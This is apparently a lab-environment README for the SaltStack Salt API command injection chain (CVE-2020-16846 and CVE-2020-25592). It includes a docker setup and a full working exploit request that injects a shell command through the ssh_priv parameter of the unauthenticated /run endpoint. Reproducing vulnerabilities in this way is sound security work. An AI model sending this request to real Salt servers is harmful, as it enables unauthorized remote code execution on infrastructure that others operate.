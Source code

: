 # SaltStack Command Injection Remote Code Execution (CVE-2020-16846)

[中文版本(Chinese version)](README.zh-cn.md)

Salt is a new approach to infrastructure management built on a dynamic communication bus. Salt can be used for data-driven orchestration, remote execution for any infrastructure, configuration management for any app stack, and much more.

In November 2020, SaltStack officially disclosed two vulnerabilities, CVE-2020-16846 and CVE-2020-25592. CVE-2020-25592 allows arbitrary user to use the SSH module, and CVE-2020-16846 allows users to execute arbitrary commands. Chain these two vulnerabilities will allow unauthorized attackers to execute arbitrary commands through the Salt API.

References:

- https://mp.weixin.qq.com/s/R8qw_lWizGyeJS0jOcYXag
- https://docs.saltstack.com/en/latest/ref/netapi/all/salt.netapi.rest_cherrypy.html

## Vulnerable Environment

Execute the following command to start a SaltStack-Master service:

```
docker compose up -d
```

After the SaltStack-Master is started, the following ports will be listened:

- 4505/4506: SaltStack-Master server, which is a bridge between master and minions
- 8000: Salt's API server, **SSL requiring**
- 2222: SSH server inside the container

## Exploit

Send the following request to `https://your-ip:8000/run`:

```
POST /run HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/x-yaml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 87

token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=aaa|touch%20/tmp/success%3b
```

Inject the command `touch /tmp/success` through the `ssh_priv` parameter:

![](1.png)
